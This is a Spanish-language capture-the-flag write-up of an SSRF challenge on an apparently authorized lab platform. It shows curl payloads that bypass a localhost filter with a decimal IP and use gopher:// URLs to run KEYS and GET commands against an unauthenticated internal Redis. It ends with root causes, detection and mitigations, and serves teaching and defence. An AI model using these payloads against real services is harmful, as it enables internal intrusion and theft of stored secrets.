





# SecureLink Validator Pro · SSRF → Redis

> Un validador de URLs que promete bloquear enlaces peligrosos termina atacando a su propia red interna. Mediante un **SSRF**, se rodean sus filtros con una **IP en decimal** y se alcanza un **Redis sin autenticación** por el protocolo **gopher**, del que se extraen los secretos de la empresa.


## Contexto

| | |
|---|---|
| **Reto** | SecureLink Validator Pro — "La trampa en los enlaces" |
| **Plataforma** | ThePwnLab |
| **Categoría** | Seguridad en Redes |
| **Dificultad** | Fácil · 100 puntos |
| **Tipo** | Reto elegido por iniciativa propia |

> El objetivo era un servicio efímero levantado por la plataforma; la IP y el puerto cambian en cada instancia.

## El objetivo

*SecureLink Validator Pro* se presenta como una herramienta empresarial que verifica si una URL es segura antes de visitarla. El propio enunciado da la pista: habla de **bypassear la verificación** para alcanzar **servicios internos**, y confirma que la flag está *"en la infraestructura interna"*.

Si un servicio visita las URLs que el usuario le entrega, se le puede pedir que visite **su propia red**: eso es un **SSRF** (*Server-Side Request Forgery*).

## Reconocimiento: la documentación lo cuenta todo

El formulario sugería un endpoint de documentación, `/api/docs`, que resultó ser una mina:



| Dato | Por qué importa |
|---|---|
| `/api/verify` acepta un parámetro `url` | Es el punto de entrada del SSRF |
| `supported_protocols: http, https, gopher` | **`gopher`** no pinta nada en un validador de URLs: es la grieta |
| `cache_location: localhost:6379` | Hay un **Redis** en la red interna |
| `security_note: Redis instance has no authentication configured` | Ese Redis está **sin contraseña** |
| `data_storage: company secrets ... stored in Redis` | Ahí están los secretos (y la flag) |

## Explotación



### 1. Dos filtros en el camino

Un primer intento contra `127.0.0.1` reveló las defensas del servicio:



```json
{"allowed_protocols":["http","https"],
 "note":"Localhost and private IP ranges are not allowed"}
```

- **Filtro de protocolo:** solo `http`/`https` (pese a que la doc anuncia `gopher`).
- **Filtro de destino:** bloquea `localhost` y rangos privados.

### 2. Bypass del filtro de IP con representación decimal

El filtro comparaba el **texto** `127.0.0.1`. Pero una IP puede escribirse de formas que el filtro no reconoce y la máquina sí resuelve: `127.0.0.1` equivale en decimal a **`2130706433`**.

```bash
curl -s "http://<objetivo>/api/verify" \
  -H "Content-Type: application/json" \
  -d '{"url":"http://2130706433:6379/"}'
```



`status: success`, `status_code: 200`: el servidor se conectó a su propio Redis. Primer muro superado.

### 3. Hablar con Redis por gopher

HTTP no sirve para enviar comandos a Redis (no entiende HTTP). El protocolo **`gopher://`** permite mandar datos "en crudo" a un puerto, que es la forma clásica de comunicarse con Redis a través de un SSRF. Combinado con la IP decimal, también atraviesa el filtro de protocolo.

Estructura: `gopher://<host>:6379/_<comando>`, donde el `_` es un relleno (gopher descarta el primer carácter) y `%0d%0a` es el salto de línea que Redis espera.

**Enumerar las claves (`KEYS *`):**

```bash
curl -s "http://<objetivo>/api/verify" \
  -H "Content-Type: application/json" \
  -d '{"url":"gopher://2130706433:6379/_KEYS%20*%0d%0a"}'
```



Entre decenas de claves con secretos reales (`company:secrets:api_key`, `admin_token`, `jwt_secret`, `database_password`…), aparece el objetivo: **`company:secrets:flag`**.

### 4. Leer la flag (`GET`)

```bash
curl -s "http://<objetivo>/api/verify" \
  -H "Content-Type: application/json" \
  -d '{"url":"gopher://2130706433:6379/_GET%20company:secrets:flag%0d%0a"}'
```

El valor devuelto en `content_preview` es la flag, con formato `TPL{...}` *(no se publica)*.

## Causa raíz

| # | Fallo |
|---|---|
| 1 | El validador permite el protocolo `gopher`, que habilita el envío de comandos arbitrarios a servicios internos. |
| 2 | El filtro de destino es una **lista negra basada en texto**: bloquea `127.0.0.1` literal, pero no sus equivalentes (`2130706433`, `0x7f000001`, `127.1`…). |
| 3 | Redis escucha en `localhost` **sin autenticación** y guarda secretos en claro. |

## 🛡️ Cómo lo detectaría y evitaría un SOC

**Detección:**
- El proceso del servidor web abriendo una conexión a `127.0.0.1:6379` es anómalo: una aplicación de verificación de URLs **no habla con Redis**, y menos por gopher.
- Picos de comandos Redis (`KEYS`, `GET`) originados en el propio servidor.
- Monitorización de conexiones salientes inesperadas del servicio hacia su red interna.

**Mitigación:**
- **Lista blanca de protocolos:** permitir únicamente `http` y `https`.
- **Validar la IP resuelta, no la cadena:** resolver el destino y comprobar que no cae en rangos internos (`127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, enlace local y metadatos de nube). Nunca filtrar por el texto.
- **Autenticación en Redis** y aislamiento de red; nunca exponerlo a datos no confiables.
- Segmentar y aplicar egreso restringido desde el servicio.

## Lecciones

- **Una lista negra por texto casi nunca es suficiente.** La misma IP tiene demasiadas representaciones válidas; la defensa correcta valida el valor resuelto, no la forma escrita.
- **El SSRF convierte a un servidor en tu proxy.** Lo peligroso no es la petición en sí, sino lo que ese servidor sí puede alcanzar y tú no.
- **Un servicio interno "de confianza" sin autenticación** (aquí, Redis) es el eslabón que transforma un SSRF molesto en una fuga total de secretos.

## Nota

El análisis y las capturas son trabajo propio. El objetivo era un entorno de laboratorio efímero y autorizado de la plataforma. No se publican la flag ni los valores de los secretos del reto.
